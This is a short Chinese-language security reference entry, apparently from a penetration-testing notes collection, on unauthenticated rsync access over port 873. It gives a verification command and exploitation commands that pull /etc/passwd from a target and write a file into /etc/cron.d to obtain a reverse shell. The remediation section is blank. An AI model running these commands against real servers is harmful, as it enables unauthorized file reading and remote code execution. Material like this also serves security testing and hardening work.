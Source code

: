 # Rsync
## Rsync 未授权访问漏洞
### 漏洞说明
rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

### 影响范围
/

### 验证方法
**手动验证**: `rsync rsync://your-ip:873/`
**pocsuite**:`poc_rsync_weakpass.py`

### 利用方法
```bash
# 下载任意文件
rsync -av rsync://your-ip:873/src/etc/passwd ./
# 通过crontab反弹shell
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

### 修复方法